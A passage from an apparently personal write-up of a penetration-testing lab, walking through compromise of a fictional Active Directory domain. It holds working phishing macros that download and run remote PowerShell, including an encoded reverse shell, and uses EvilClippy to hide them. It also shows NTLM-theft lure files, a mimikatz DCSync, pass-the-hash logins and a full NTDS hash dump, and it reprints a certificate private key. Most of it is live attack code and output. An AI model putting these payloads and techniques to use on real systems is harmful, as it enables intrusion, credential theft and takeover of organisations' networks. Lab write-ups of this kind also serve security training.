2fb628c0199c756b8c2176582d5b114763bf76425ecafad1bb1e102c0721f25a30c96403fbf0d1aea7ebbbf645c24343a5fab9f559ccb257d121bf327c35dddca6f289859763bf16bed393181f4300d06092b06010401823711023100301306092a864886f70d0109153106040401000000305d06092b060104018237110131501e4e004d006900630072006f0073006f006600740020005300740072006f006e0067002000430072007900700074006f0067007200610070006800690063002000500072006f00760069006400650072306f06092a864886f70d01091431621e6000740065002d00570069006c00640063006100720064002d00660035003700630064003100340032002d0033003200660037002d0034006100360030002d0061003000340035002d0033003200370032006400330064003000370038003000343082080b06092a864886f70d010701a08207fc048207f8308207f4308205ed060b2a864886f70d010c0a0103a08204a23082049e060a2a864886f70d01091601a082048e0482048a308204863082042ba0030201020213260000000327c1b96175034507000000000003300a06082a8648ce3d040302304131153013060a0992268993f22c64011916056c6f63616c31153013060a0992268993f22c640119160563796265723111300f0603550403130843796265722d4341301e170d3139313233313037303835355a170d3231313233303037303835355a301b3119301706035504031310616466732e63796265722e6c6f63616c30820122300d06092a864886f70d01010105000382010f003082010a0282010100c608054b28b3f06836721388175c07a90ec25e989e07ce401c8b668348adf86fc2fbd2314409a20fb66b148465dcd03cc77d280d7fb226b40db52ea7d690b9491a91959be111ff1079726b4978a7b651aa4faacdedae7e57dd1c652310f8aa0113f8a84d415f6000aeae2a1f252d6250505efa2a321d29185ed793c01af8f4116cb420291d70d77a7321f129ad22d76003cf7c3df67e3e23602569fed5866572f1b5ea7ce20163605ad0639a22df82bb408c2eaf4ab1b1f53208f1a8a091bf40d7450b42d6e076846f25cf1c551a9385661537ad747479125acfdbd8fb61f45eb10303dd5e2f0f2f31bc0ce6e53bf9e0b10d1e0ca106a290d1ca72cbcc1d23170203010001a382025b30820257303606092b060104018237150704293027061f2b060104018237150887bb95349f913386898d3884d69d6681d5c42369012202016402010130130603551d25040c300a06082b06010505070301300e0603551d0f0101ff0404030205a0301b06092b060104018237150a040e300c300a06082b06010505070301301d0603551d0e04160414d1c397f9630b7e95a74b339388f6f3d64f52c08430180603551d110411300f820d2a2e63796265722e6c6f63616c301f0603551d23041830168014310aa304f087b31eb5a2a5eaa9c2e9616390ac223081c30603551d1f0481bb3081b83081b5a081b2a081af8681ac6c6461703a2f2f2f434e3d43796265722d43412c434e3d637964632c434e3d4344502c434e3d5075626c69632532304b657925323053657276696365732c434e3d53657276696365732c434e3d436f6e66696775726174696f6e2c44433d63796265722c44433d6c6f63616c3f63657274696669636174655265766f636174696f6e4c6973743f626173653f6f626a656374436c6173733d63524c446973747269627574696f6e506f696e743081ba06082b060105050701010481ad3081aa3081a706082b0601050507300286819a6c6461703a2f2f2f434e3d43796265722d43412c434e3d4149412c434e3d5075626c69632532304b657925323053657276696365732c434e3d53657276696365732c434e3d436f6e66696775726174696f6e2c44433d63796265722c44433d6c6f63616c3f634143657274696669636174653f626173653f6f626a656374436c6173733d63657274696669636174696f6e417574686f72697479300a06082a8648ce3d0403020349003046022100f12541b125096af82f19ea6602f2f99343d11d712f0a496bf2256e179c423a94022100be3d7a427cf43d5355124ca16709f3c811f09801a696fe828a5fc0cf6fd0587a318201363011060a2b0601040182371103793103040100301306092a864886f70d0109153106040401000000301906092a864886f70d010914310c1e0a004100440046005300003036060a2b060104018237110347312804266300790061006400660073002e00630079006200650072002e006c006f00630061006c0000003081b8060a2b0601040182371103573181a90481a600000000000000000200000000000000020000006c006400610070003a0000007b00300033003100330039003600330039002d0043003400320044002d0034003300380035002d0042004500330039002d004100330032004500410042004300320038003000340037007d00000063007900640063002e00630079006200650072002e006c006f00630061006c005c00430079006200650072002d0043004100000033000000308201ff060b2a864886f70d010c0a0103a08201ec308201e8060a2a864886f70d01091601a08201d8048201d4308201d030820177a003020102021021c400cd0f01b58f46067d7600e2a9ca300a06082a8648ce3d040302304131153013060a0992268993f22c64011916056c6f63616c31153013060a0992268993f22c640119160563796265723111300f0603550403130843796265722d4341301e170d3139313233313036343130385a170d3439313233313036353130385a304131153013060a0992268993f22c64011916056c6f63616c31153013060a0992268993f22c640119160563796265723111300f0603550403130843796265722d43413059301306072a8648ce3d020106082a8648ce3d03010703420004f07bb9de2e953875cb164bf77494eee0d8144d2bffeea3510c00d42a9e9b506d5b04021eb55cac3e42e411d9b0ca631910b5056c89ecd4266d58c31263d78468a351304f300b0603551d0f040403020186300f0603551d130101ff040530030101ff301d0603551d0e04160414310aa304f087b31eb5a2a5eaa9c2e9616390ac22301006092b06010401823715010403020100300a06082a8648ce3d040302034700304402202683ce66d5033c9f1ef6415153372610695cead12d67ddafae2ab499c3040bb702203c6791e206846c3b8bb85e3496f265cf7efd76c9dd2621b4466162981c605b993100$9ca448008481d2a805bcd3899bac387b0d863e13:::::WildCard.pfx
```

Damn it worked:



Can we import it in windows to make it working?



Seems like yes:



I had to add the adfs link since it was doing a redirect:



But importing the wildcard in the Trusted authority we can login?



Then I realized that the imported certificate was expired so I replaced it with the one from the ADFS token:



And now we are getting logged out most likely cause we missing the dev permission?



But I keep getting signed out? And after trying again on another lab now I can!

(Might be that I am running certmgr.msc as Administrator but I highly doubt it!)



And we have a success baby!





And now trying to reach the owa, still got the issue on certificate but Firefox asked me to accept, and back to mail.cyber.local/owa and we have a success baby!  
<br/>

Now since I need to be able to export the private key I will adjust that in the template before asking a new certificate;



And now we can export it:



And we can import between our Personal credentials in our server:



&nbsp;

# Pwning the OWA

Now from the inside we can see 3 other mails that might be interesting here:



Irene is offcourse our first target since we found her account in the Wordpress and thas I guess is the hint! Checking her account persmission seems like she is part of the "Helpdesk users" which might give us access to Jenkinks?



But Robert Lanza can't be found. So I will setup my connections and try to sniff the NTLM hash of ILENE via malicious file upload!

```
PS C:\Temp> .\Inveigh.exe
[*] Inveigh 2.0.10 [Started 2024-06-17T02:34:26 | PID 4852]
[+] Packet Sniffer Addresses [IP 10.9.20.13 | IPv6 fe80::d290:47ca:c783:231d%7]
[+] Listener Addresses [IP 0.0.0.0 | IPv6 ::]
[+] Spoofer Reply Addresses [IP 10.9.20.13 | IPv6 fe80::d290:47ca:c783:231d%7]
[+] Spoofer Options [Repeat Enabled | Local Attacks Disabled]
[ ] DHCPv6
[+] DNS Packet Sniffer [Type A]
[ ] ICMPv6
[+] LLMNR Packet Sniffer [Type A]
[ ] MDNS
[ ] NBNS
[+] HTTP Listener [HTTPAuth NTLM | WPADAuth NTLM | Port 80]
[ ] HTTPS
[+] WebDAV [WebDAVAuth NTLM]
[ ] Proxy
[+] LDAP Listener [Port 389]
[+] SMB Packet Sniffer [Port 445]
[+] File Output [C:\Temp]
[+] Previous Session Files [Imported]
[*] Press ESC to enter/exit interactive console
[!] Failed to start HTTP listener on port 80, check IP and port usage.
[!] Failed to start HTTPv6 listener on port 80, check IP and port usage.
```

And generate the malicious files:

```
──(root㉿kali-bello)-[/home/millycash/Downloads/Tools/ntlm_theft]
└─# python3 ntlm_theft.py --generate all --server 10.9.20.13 --filename certificate 
Created: certificate/certificate.scf (BROWSE TO FOLDER)
Created: certificate/certificate-(url).url (BROWSE TO FOLDER)
Created: certificate/certificate-(icon).url (BROWSE TO FOLDER)
Created: certificate/certificate.lnk (BROWSE TO FOLDER)
Created: certificate/certificate.rtf (OPEN)
Created: certificate/certificate-(stylesheet).xml (OPEN)
Created: certificate/certificate-(fulldocx).xml (OPEN)
Created: certificate/certificate.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: certificate/certificate-(includepicture).docx (OPEN)
Created: certificate/certificate-(remotetemplate).docx (OPEN)
Created: certificate/certificate-(frameset).docx (OPEN)
Created: certificate/certificate-(externalcell).xlsx (OPEN)
Created: certificate/certificate.wax (OPEN)
Created: certificate/certificate.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: certificate/certificate.asx (OPEN)
Created: certificate/certificate.jnlp (OPEN)
Created: certificate/certificate.application (DOWNLOAD AND OPEN)
Created: certificate/certificate.pdf (OPEN AND ALLOW)
Created: certificate/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: certificate/Autorun.inf (BROWSE TO FOLDER)
Created: certificate/desktop.ini (BROWSE TO FOLDER)
Generation Complete.
```

And try to send the files:



And seems like she will review the files? WHich mean we are on the right track?


But nothing is working so I was googling and found out that also email signatures can be used:

```
<html>
<body>

</body>
</html>
```

Is that bitch trolling me???


It's clear we need to use files and not cleartext links I will try again with other stuff...

OBS: here I got a insider tips to send an email with "Flag" in the subject to get the flag!



Now this isn't working, damnit!

There is another exploit very fresh but it requires the SMTP credentials which I don't have:  
https://github.com/dshabani96/CVE-2024-21413

But we eventually got the flag baby!


But then looking around I used this as reference: https://book.hacktricks.xyz/generic-methodologies-and-resources/phishing-methodology/phishing-documents

The first part is what we already tried by using ntlm_theft to disguise a macro inside DOC files but the second part involves a hta file to execute some code?  
I can use this to generate the RCE!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# cat certificate.hta 
<--! Basic HTA Execution -->
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      shell.run "cmd.exe /c dir //10.9.20.10/certificate"
    End Function

    Pwn
  </script>
</html>
```

But we can't uploadthe file or attach a hyperlink so I will create a macro inside in a doc(93-2003 since it is old, new one like docm or doctx asks you if you want to execute the macro. Then I will try to use evilclippy to hide all the macros



And now saved as office 97:


But it isn't working so I will use the powershell code to get a rce instead!

```
Sub AutoOpen()
    CreateObject("WScript.Shell").Exec ("powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AOQAuADIAMAAuADEAMAAiACwANAA0ADMAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIA
OwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA")
End Sub
```

To make it working locally I will use "Evilclippy.exe" to randomize var names, removing code from the VBS editor and removing metadata:

```
┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Tools/EvilClippy]
└─PS> ./EvilClippy.exe -g '../../Hello world.doc'
Hiding module: NewMacros

┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Tools/EvilClippy]
└─PS> ./EvilClippy.exe -r '../../Hello world.doc'
Setting random ASCII names for VBA modules in dir stream (while leaving unicode names intact).

┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Tools/EvilClippy]
└─PS> ./EvilClippy.exe -d '../../Hello world.doc'
```

But then playing around with my code:

```
Sub AutoOpen()
    CreateObject("WScript.Shell").Exec ("powershell.exe -noexit -ep bypass -c IEX((New-Object System.Net.WebClient).DownloadString('http://10.9.20.13.8080/owa'))")
End Sub
```

Seems like a success?



Now that I know this I add a owa.ps1 with a powershell encoded reverse shell that points back to my Python HTTP serving the file...

```
Sub AutoOpen()
    CreateObject("WScript.Shell").Exec ("powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.9.20.13:8080/owa.ps1')")
End Sub
```

And lastly it should pop back a shell on M3DC via NC listener...

Sending again the email



Email feedback received:



But nothing works so I will try this one:

```
https://github.com/glowbase/macro_reverse_shell/tree/main
```

But since everything failed I got tipsed to use this one:

```
https://github.com/christophetd/spoofing-office-macro
```

Here I got in panicking since nothing worked out so I changed lab and the issue persisted, but then I realized that we are on the 10.10.110.11 which should be able to talk back directly to our IP without going back to the Internal network ar 10.9.20.13... So what if I point to my VPN address instead?

&nbsp;

# ATTEMPT nr#2

After several hours seems like ILENA was broken so I had to momentally work on US lab1. But using this got me to work!

OBS: file saved ad doc(aka 97-2003 office word doc)

```
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.14.3:8080/owa.ps1'))"""

End Sub
```

Result:

```
//request of the file by the backend:
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/www]
└─# python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.110.250 - - [17/Jun/2024 16:14:05] "GET /owa.ps1 HTTP/1.1" 200 -


//Shell baby:
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.15.253] from (UNKNOWN) [10.10.110.250] 30316

PS C:\WINDOWS\system32> whoami
core\ilene.rasch
PS C:\WINDOWS\system32>
```

Now we can move on to :

```
corewkt001
```

&nbsp;

# Post AD Analisys

Now I guess before moving to the domain CYBER.local we need to pwn the CORE.CYBER.local and from what i see seems like there is a possible path?


If i can get dennis Hikle password then I am in a good spot!

But then I relized he is part of the main domain cyver.local which isn't allowing us to move forward.

Then I got a tips to mark all the machines pwned via "owned" that would help me draw the path easily **Shortest Paths to Domain Admins from Owned Principals**

And this allowed me to draw a much easier path!



It's clear that the last machine we pwned on the IP 10.9.15.12 can DCSync on the domain so let's go to the drawing plane! Now we can do this directly from windows in Mimikatz but I need to get to a better shell!

And now we can dump it's NTLM hash:

```
mimikatz(commandline) # lsadump::dcsync /domain:core.cyber.local /user:Administrator@core.cyber.local
[DC] 'core.cyber.local' will be the domain
[DC] 'coredc.core.cyber.local' will be the DC server
[DC] 'Administrator@core.cyber.local' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 1/7/2020 2:12:08 PM
Object Security ID   : S-1-5-21-1559563558-3652093953-1250159885-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: b519f7764f7672e6a4a77cba6fb8fcdf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 737bfb28c2b2e65e45ee3d6ef14cd6b2

* Primary:Kerberos-Newer-Keys *
    Default Salt : CORE.CYBER.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 3a6f24b408edbcd4b9bd4efff67684a9f66d2fb52946bad3d01aa5df2fa712c0
      aes128_hmac       (4096) : 8e689f402ee09586379804ef818f1b5b
      des_cbc_md5       (4096) : 7fe0e06b3179321a

* Primary:Kerberos *
    Default Salt : CORE.CYBER.LOCALAdministrator
    Credentials
      des_cbc_md5       : 7fe0e06b3179321a

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  6496637bd9a729690254c08bbfe0150f
    02  d72d3fa0f2ce8c06e7b0d7ab71bb24d8
    03  0d579d7a61d7738e5394173702ceeb85
    04  6496637bd9a729690254c08bbfe0150f
    05  eb20fc95c30e09798b5128bb8638ac86
    06  72e93dd4b522f704a52e9d771e93be02
    07  b7e5c1ef4c351b95877a2cac7acc1bf6
    08  a7a8614f383edbcaacad3dd94ca7b6d3
    09  63fcc2471622cb368f81b655ebcbc984
    10  dd482a3b1a747948e893cfbf5baae147
    11  3a6d39d3aec3a6715d4489075ec84a78
    12  a7a8614f383edbcaacad3dd94ca7b6d3
    13  8fdb4f9adf27ca1a4dd60a0ef05b4eee
    14  bbfdc2d3557b19a6769306ce90be20d8
    15  6a6bd80c0085db6b63968eed14047737
    16  a56c117e4d5fbf24d1e88f4f7ff300a1
    17  1105a0a2ccc099163d5f31709c5cd997
    18  d564ed43b235d2d34fbde69d5471e7a0
    19  4660c917d3bb39a3d200f5c4e2e479f3
    20  001eb32e58963e6f77d5d2f9a9cf7da0
    21  bdf397688fec005f28ba2e2e4ac1a630
    22  ae050a600b90cd5c3a5826c5d937d52b
    23  418d3e1b54f7241b2581c69d7d80a42e
    24  66e67d03c71e5e1106d85304ddc6fe83
    25  bd824b90d35f6f9b0c59b4ca8354d70c
    26  f0ede0d0b5bf90ede0591612ccd7f9c0
    27  c628892ad939bb8695301f7ce386f987
    28  d0924731830a5ea37b858b989d16a84d
    29  2189df50c45a10d7a8502f86ad6e6659


mimikatz(commandline) # exit
Bye!
PS C:\temp>
```

This allow us to get another flag:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/www]
└─# evil-winrm -i 10.9.15.10 -u Administrator -H b519f7764f7672e6a4a77cba6fb8fcdf
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> l
The term 'l' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ l
+ ~
    + CategoryInfo          : ObjectNotFound: (l:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
*Evil-WinRM* PS C:\Users\Administrator> ls


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        1/24/2024  10:00 AM                Contacts
d-r---        1/24/2024  10:01 AM                Desktop
d-r---        1/24/2024  10:01 AM                Documents
d-r---        1/24/2024  10:01 AM                Downloads
d-r---        1/24/2024  10:00 AM                Favorites
d-r---        1/24/2024  10:01 AM                Links
d-r---        1/24/2024  10:01 AM                Music
d-r---        1/24/2024  10:00 AM                Pictures
d-r---        1/24/2024  10:01 AM                Saved Games
d-r---        1/24/2024  10:01 AM                Searches
d-r---        1/24/2024  10:00 AM                Videos
-a----         6/7/2020   6:52 PM             74 flag.txt


*Evil-WinRM* PS C:\Users\Administrator>
```

&nbsp;

# POST Exploitation

Now I will use the hash to dump all the HTLM hashed from the coredc via NetExec NTDS dump:

```
──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_cyber_local]
└─# NetExec smb 10.9.15.10 -u "Administrator" -H b519f7764f7672e6a4a77cba6fb8fcdf -M ntdsutil
SMB         10.9.15.10      445    COREDC           [*] Windows 10 / Server 2016 Build 14393 x64 (name:COREDC) (domain:core.cyber.local) (signing:True) (SMBv1:False)
SMB         10.9.15.10      445    COREDC           [+] core.cyber.local\Administrator:b519f7764f7672e6a4a77cba6fb8fcdf (Pwn3d!)
NTDSUTIL    10.9.15.10      445    COREDC           [*] Dumping ntds with ntdsutil.exe to C:\Windows\Temp\171881329
NTDSUTIL    10.9.15.10      445    COREDC           Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.9.15.10      445    COREDC           [+] NTDS.dit dumped to C:\Windows\Temp\171881329
NTDSUTIL    10.9.15.10      445    COREDC           [*] Copying NTDS dump to /tmp/tmpy57ndx5p
NTDSUTIL    10.9.15.10      445    COREDC           [*] NTDS dump copied to /tmp/tmpy57ndx5p
NTDSUTIL    10.9.15.10      445    COREDC           [+] Deleted C:\Windows\Temp\171881329 remote dump directory
NTDSUTIL    10.9.15.10      445    COREDC           [+] Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.9.15.10      445    COREDC           CYDC$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           Administrator:500:aad3b435b51404eeaad3b435b51404ee:b519f7764f7672e6a4a77cba6fb8fcdf:::
NTDSUTIL    10.9.15.10      445    COREDC           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           COREDC$:1000:aad3b435b51404eeaad3b435b51404ee:fe6960a311fe7d4e0ca3a6763220a797:::
NTDSUTIL    10.9.15.10      445    COREDC           krbtgt:502:aad3b435b51404eeaad3b435b51404ee:35cc881028c3cf7a11c86f6f035649e0:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Ilene.Rasch:1103:aad3b435b51404eeaad3b435b51404ee:d380499ccabc53c0109289f64196b6d8:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Krista.Leon:1104:aad3b435b51404eeaad3b435b51404ee:0a16a48d8df8121c8aaf8f42bec5366e:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Adrian.Ballard:1105:aad3b435b51404eeaad3b435b51404ee:ec4d61ab79ad9f2822e4989414c2fa4a:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Maria.Davidson:1106:aad3b435b51404eeaad3b435b51404ee:aed52074b84695404c48f28b323a78f0:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Marilyn.McDaniel:1107:aad3b435b51404eeaad3b435b51404ee:cb34561e86b1ec279e12aa32367cda27:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Robert.Reid:1108:aad3b435b51404eeaad3b435b51404ee:f27506cc4a9307aa624b863784166e72:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Liz.Noack:1109:aad3b435b51404eeaad3b435b51404ee:757b84dec71641f80a51686879b958b8:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Nora.Chaney:1110:aad3b435b51404eeaad3b435b51404ee:46fe9b284f4c3bef2bb2b764b593dfe9:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Kristie.Lee:1111:aad3b435b51404eeaad3b435b51404ee:d636485120611dcf657172f938876e35:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Doris.Miller:1112:aad3b435b51404eeaad3b435b51404ee:ea9b733f36550cb5b54fbcc978d16e57:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Steven.Sanchez:1113:aad3b435b51404eeaad3b435b51404ee:2570045eda6278a1c0e999a04f0beae2:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Thomas.Hinnenkamp:1114:aad3b435b51404eeaad3b435b51404ee:d00ce8937844e30d39cd35226845e9ac:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Peter.Liu:1115:aad3b435b51404eeaad3b435b51404ee:2995ab2397bc590b7470e5ed8897d7ce:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Michael.Jones:1116:aad3b435b51404eeaad3b435b51404ee:0fb3957c7db09308b89c2d08a5005655:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Paul.Beam:1117:aad3b435b51404eeaad3b435b51404ee:b1318d688fc60774b5baab554429c943:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Jamie.Huntley:1118:aad3b435b51404eeaad3b435b51404ee:e2dd08bf0a64d9c07767cf3b096de59d:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Amanda.Ring:1119:aad3b435b51404eeaad3b435b51404ee:2a28cbbecb952796ecaa3faf5fa3eb63:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Matthew.Ben:1120:aad3b435b51404eeaad3b435b51404ee:a9dd65506cd78ecc03e01f92795d32b7:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Kimberly.Wansley:1121:aad3b435b51404eeaad3b435b51404ee:1721e1866332fbd62e62cb127e099cc2:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Martha.Depaz:1122:aad3b435b51404eeaad3b435b51404ee:743dbfd1d3d7e0875ca4f7301e573b00:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Joseph.Parker:1123:aad3b435b51404eeaad3b435b51404ee:96c6df39d22ec1a2db9ecab76f7a7b89:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Daryl.Edwards:1124:aad3b435b51404eeaad3b435b51404ee:bf26468fbac36d34c2ff7d9491fe6907:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Christopher.Glass:1125:aad3b435b51404eeaad3b435b51404ee:516be3f789434077b2761516fc184b0e:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Kate.Simmons:1126:aad3b435b51404eeaad3b435b51404ee:467cfc38c55523659255e08750c35702:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Andrew.Sebring:1127:aad3b435b51404eeaad3b435b51404ee:8d3930c10294047c966948403d9bfd45:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Lowell.Galloway:1128:aad3b435b51404eeaad3b435b51404ee:7ea0f4f6ce9fa2a51c138e5dcffb7480:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Theresa.Knowles:1129:aad3b435b51404eeaad3b435b51404ee:0bdec461c1d25eeb7f131a35774b0461:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Heather.McDonald:1130:aad3b435b51404eeaad3b435b51404ee:74de71f2a463b68a3d9d1b131d972e7b:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Cynthia.Price:1131:aad3b435b51404eeaad3b435b51404ee:e448b8869ab1730905f7d41dc9bd8b6a:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Junior.Brown:1132:aad3b435b51404eeaad3b435b51404ee:c324581e03b412e26fa1bdb56bc4f906:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Kevin.Treadwell:1133:aad3b435b51404eeaad3b435b51404ee:bfbd087162d3ccd59c5bb50a96823c5f:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\John.Turner:1134:aad3b435b51404eeaad3b435b51404ee:7f74155d5b987c0bc3a7a16885864ebb:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Antonio.Oneal:1135:aad3b435b51404eeaad3b435b51404ee:41b4372ce178d3028e9413b7d7d8a014:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Gregory.McNemar:1136:aad3b435b51404eeaad3b435b51404ee:880c9c1f4350636da845269c2a4b35fa:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Wallace.Dover:1137:aad3b435b51404eeaad3b435b51404ee:454da81e19e7a9e88b13bd3617cb8616:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Mary.Menjivar:1138:aad3b435b51404eeaad3b435b51404ee:60517337bbdef6edbcc42ae9aede2c86:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\William.Ryan:1139:aad3b435b51404eeaad3b435b51404ee:00b40183ac556015406a6be445d89967:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Courtney.Echevarria:1140:aad3b435b51404eeaad3b435b51404ee:0da9078de4062a42781e71968907f03d:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Curtis.Scott:1141:aad3b435b51404eeaad3b435b51404ee:ba7dca93fa728caed2f0564e20fc7e21:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Julia.Harvey:1142:aad3b435b51404eeaad3b435b51404ee:4ed78d554ce9acbdb4ed69588bd96bd5:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Lawrence.Pullin:1143:aad3b435b51404eeaad3b435b51404ee:e6d915c1195735bc68acf96249a9473e:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Renee.Sells:1144:aad3b435b51404eeaad3b435b51404ee:fc9fa76c196c532b92e27b25ce6bec4e:::
